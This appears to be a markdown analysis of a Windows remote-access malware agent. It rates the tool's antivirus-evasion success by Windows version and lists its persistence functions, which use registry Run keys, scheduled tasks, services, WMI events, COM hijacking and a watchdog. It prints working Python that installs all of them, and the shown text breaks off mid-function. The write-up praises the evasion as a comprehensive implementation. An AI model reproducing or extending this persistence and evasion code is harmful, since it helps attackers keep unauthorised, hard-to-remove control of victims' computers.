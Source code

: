 ### **Effectiveness:**
- **Windows 7-8:** High (8-10 methods work)
- **Windows 10 (pre-1903):** High (7-9 methods work)
- **Windows 10 (1903+):** Medium (4-6 methods work, Tamper Protection)
- **Windows 11:** Medium-Low (3-5 methods work, enhanced protection)

### **Status:** ✅ **COMPREHENSIVE IMPLEMENTATION**

---

## SECTION 13: Persistence Mechanisms (Lines 3083-3785)

### **Purpose:** Ensure agent survives reboots and maintains access

### **Functions Identified:**

**Main Functions:**
1. **establish_persistence()** (Lines 3083-3113) - Orchestrator
2. **registry_run_key_persistence()** (Lines 3114-3164)
3. **startup_folder_persistence()** (Lines 3165-3204)
4. **scheduled_task_persistence()** (Lines 3205-3224)
5. **service_persistence()** (Lines 3225-3245)
6. **system_level_persistence()** (Lines 3267-3318)
7. **wmi_event_persistence()** (Lines 3319-3368)
8. **com_hijacking_persistence()** (Lines 3369-3408)
9. **watchdog_persistence()** (Lines 3458-3495)
10. **tamper_protection_persistence()** (Lines 3602-3640)

### **Code Structure:**
```python
def establish_persistence():
    """Install all persistence mechanisms"""
    methods = [
        ('Registry Run Key', registry_run_key_persistence),
        ('Startup Folder', startup_folder_persistence),
        ('Scheduled Task', scheduled_task_persistence),
        ('Windows Service', service_persistence),
        ('WMI Event', wmi_event_persistence),
        ('COM Hijacking', com_hijacking_persistence),
        ('Watchdog', watchdog_persistence),
        ('Tamper Protection', tamper_protection_persistence),
    ]
    
    is_admin = ctypes.windll.shell32.IsUserAnAdmin()
    installed = []
    
    for name, method in methods:
        try:
            if method():
                installed.append(name)
                debug_print(f"✅ Persistence installed: {name}")
        except Exception as e:
            debug_print(f"❌ Persistence failed: {name} - {e}")
    
    return installed

def registry_run_key_persistence():
    """Add to registry Run keys"""
    try:
        # HKCU\Software\Microsoft\Windows\CurrentVersion\Run
        key = winreg.OpenKey(winreg.HKEY_CURRENT_USER, 
```